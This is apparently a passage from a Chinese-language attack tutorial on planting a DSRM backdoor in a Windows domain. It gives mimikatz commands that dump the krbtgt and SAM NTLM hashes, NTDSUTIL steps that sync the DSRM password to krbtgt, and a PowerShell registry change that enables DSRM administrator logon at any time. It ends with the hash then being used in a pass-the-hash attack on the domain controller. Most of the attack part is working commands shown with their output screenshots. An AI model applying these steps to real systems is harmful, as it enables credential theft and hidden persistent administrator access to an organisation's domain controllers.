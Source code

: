 ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142413.png)

### 设置 DSRM 后门

上传`mimikatz`，在`administrator`权限下执行命令

```powershell
privilege::debug
lsadump::lsa /patch /name:krbtgt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142802.png)

获取到了`krbtgt `**NTLM Hash**  和 SID

接下来查看并获取SAM文件中本地管理员的NTML也就是**DSRM的NTLM Hash值**

```powershell
token::elevate
lsadump::sam
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142938.png)

将DSRM账号和krbtgt的NTML HASH同步

```powershell
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN account krbtgt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516143329.png)



我们发现 krbtgt的NTLM和 administrator的 hash成功同步

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516143548.png)

最后修改一下DSRM的登录方式，DSRM默认有三种方式

- 0:默认值，只有当城控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号。
- 1: 只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器。

- 2:在任何情况下，都可以使用DSRM管理员账号登录域控制器。

通过以下命名设置方式改为：2

以管理员方式运行powershell：

```powershell
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516144000.png)

最后，我们就可以使用本地`administrator` 账号哈希传递攻击域控
